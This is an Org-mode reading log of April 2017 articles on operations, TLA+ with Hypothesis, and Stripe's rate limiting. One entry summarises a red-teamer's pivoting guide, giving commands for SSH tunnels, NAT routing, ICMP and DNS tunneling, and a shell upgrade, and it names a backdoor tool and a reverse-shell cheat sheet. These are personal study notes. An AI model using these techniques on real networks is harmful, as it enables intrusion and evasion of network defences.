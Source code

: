 #+TITLE: April 2017 Articles

* TODO [[https://charity.wtf/2016/05/31/operational-best-practices-serverless/][Operational Best Practices #serverless]]          :operations:practices:
* DONE [[https://charity.wtf/2016/05/31/wtf-is-operations-serverless/][WTF is Operations? #serverless]]                            :operations:
  CLOSED: [2017-04-07 Fri 16:55]
  - What is operations?
    - constellation of org's tech skills, practices, cultural values around
      designing, building, maintaining systems, shipping, and solving problems
      with technology.
    - Ops teams aren't the sole keeper of reliability.
    - "Thinking about operational quality in terms of “a thing some other team is responsible for” is just generally not associated with great outcomes."
  - Core competencies of good ops engineers
    1. Scalability
    2. Resiliency
    3. Availability
    4. Maintainability
    5. Simplicity in complex systems
    6. Instrumentation and visibility
    7. Graceful degradation
  - Ops, historically speaking, attracted greater proportion
  - The BOFH stereotype is dead.  
  - "Some of the most creative cultural and technical changes in the technical landscape are being driven by the teams most identified with operations and developer tooling."
  - "You don’t make operational outcomes magically better by renaming the team “DevOps” or “SRE” or anything else."

* TODO [[https://pingcap.github.io/blog/2016/10/17/how-we-build-tidb/][How We Build TiDB]]                                         :db:distsys:
* TODO [[https://medium.com/@MaartenSikkema/using-dotnet-core-orleans-redux-and-websockets-to-build-a-scalable-realtime-back-end-cd0b65ec6b4d][Building a realtime server backend using the Orleans Actor system, Dotnet Core and Server-side Redux]] :realtime:orleans:

* DONE [[http://nchammas.com/writing/how-not-to-die-hard-with-hypothesis][Solving the Water Jug Problem from Die Hard 3 with TLA+ and Hypothesis]] :tla:propertybasedtesting:
  CLOSED: [2017-04-06 Thu 13:34]
  - Problem: Using only a 3 gallon jug and a 5 gallon jug, get me exactly 4 gallons of water.
  - There's a [[https://github.com/tlaplus/Examples/blob/master/specifications/DieHard/DieHard.tla][TLA+ spec]] for this already, but can it be solved with Hypothesis, the Python property based testing lib?
    - The answer is, yes. But, I'm not, and the author isn't sure if TLA+ / Hypothesis are equal in power. My guess is not, but maybe?
  - Exploits RuleBasedStateMachine to create Step Functions
    - and uses invariants that must be satisified
      e.g. small jug is between 0 and 3 gallons, big between 0 and 5
           big != 4.
    - THEN, then the invariant of big != 4 is *invalidated*, e.g. we have exactly 4 gallons, the test fails, and Hypothesis
      tells you the steps! 
    - This is almost exactly the opposite of what TLA+s' model checker does, but works almost exactly the same!


* DONE [[https://artkond.com/2017/03/23/pivoting-guide/][A Red Teamer's guide to pivoting]]                 :security:pentesting:
  CLOSED: [2017-04-03 Mon 23:22]
  - You've found an RCE in a web-app accessible from the internet, and have a shell.
    - SSH port forwarding: 
      ssh username@host -D 1080 # socks server on the local Intranet.
      ssh username@host -L 445:192.168.1.1:445 # 445 opened on attacker's side to 445 in Intranet
    - SSH can tunnel layer 3 traffic via established ssh channels. (need root on both machines)
      (PermitRootLogin yes, PermitTunnel yes)
      - ssh username@server -w any:any # create pair of tun devices
      - tunnels created, but not activated
        - ip addr add 1.1.1.2/32 peer 1.1.1.1 dev tun0 # client side
        - id addrs add 1.1.1.2/32 peer 1.1.1.2 dev tun0 # server side
        - echo 1 > /proc/sys/net/ipv4/ip_forward # enable NAT forwarding
        - iptables -t nat -A POSTROUTING -s 1.1.1.2 -o eth0 -j MASQUERADE
        - route add -net 10.0.0.0/16 gw 1.1.1.1 # default gateway for that network
    - 3proxy (https://github.com/z3APA3A/3proxy/releases)
      - can be used as socks proxy or port forwarder
      - general swiss army knife
    - rpivot: https://github.com/artkond/rpivot
      - traverses NAT connections. reverse socks proxy. works like ssh -D but in opposite direction.
  - On the internal network, limited connectivity
    - ICMP tunneling via [[http://code.gerade.org/hans/][hans]] (need root locally since raw sockets)
      - hans -v -f -s 1.1.1.1 -p P@ssw0rd # server side
      - hans -f -c <server ip> -p P@ssw0rd # client side
    - DNS tunneling
      - WAN traffic might be blocked, but can resolve external names.
      - If you have root, [[http://code.kryo.se/iodine/][iodine]] works almost like hans.
        - iodined -f -c -P P@ssw0rd 1.1.1.1 tunneldomain.com # server
        - iodone -f -P P@ssw0rd tunneldomain.com -r # client
        - Success yields direct visibility at 1.1.1.2.
        - Then, using compression:
          ssh user@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080
      - [[https://github.com/iagox86/dnscat2][Dnscat2]] doesn't require root.
    - Corporate HTTP proxy as way out.
      - Rpivot, [[http://cntlm.sourceforge.net/][Cntlm]], OpenVpn over HTTP proxy.
  - [[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet][Reverse Shell Cheat Sheet]]
  - Upgrade from regular semi-interactive shell:
    =python -c 'import pty; pty.spawn("/bin/bash")'=
  - socat
  - [[https://github.com/creaktive/tsh][Tsh]]: small ssh-like backdoor with full-pty terminal.
* DONE [[https://stripe.com/blog/rate-limiters][Scaling your API with rate limiters]]                          :distsys:
  CLOSED: [2017-04-03 Mon 23:01]
  - Rate limiting can make your API more reliable when:
    - One of your users is responsible for a spike in traffic, but you need to stay up for others
    - Misbehaving scripts accidentially sending you lots of request
    - User sending lower priority stuff.
      (This implies that you have some sort of prioritization of requests)
    - Something wrong internally.
  - Stripe implements a few strategies to keep the API available for everyone
  - Not an option if spacing out requests isn't an option.
  - During incidents, shed load by dropping low priority requests.
  - 4 types used in production
    - Request rate limiter (e.g. N requests per second) -- Stripe has the ability to burst a bit.
    - Concurrent reuqests limiter (e.g. 20 requests at the same time). Helps with resource intensive requests
    - Fleet usage load shedder
      - Divide up traffic into critical (e.g. charges) and non-critical (list charges).
      - Reserve fraction of requests for charges
    - Worker utilization load shedding
      - Divide into Critical, POSTs, GETs, Test mode traffic
        - track workers: busy boxes will shed less critical requests
  - How to deploy?
    - Hook into middleware safely.
      e.g. what happens if redis goes down, or bugs?
    - Show good exceptions to your users 429 (Too Many Requests), 503 (Service Unavailable)
    - Control rods
    - Dark launch to simulate what would actually happen.

*** Further thoughts
    - Dark launches are helpful, but can't tell you exactly, since the potentially blocked traffic is still happening. This is similar to our auto scaling problem.
      
    

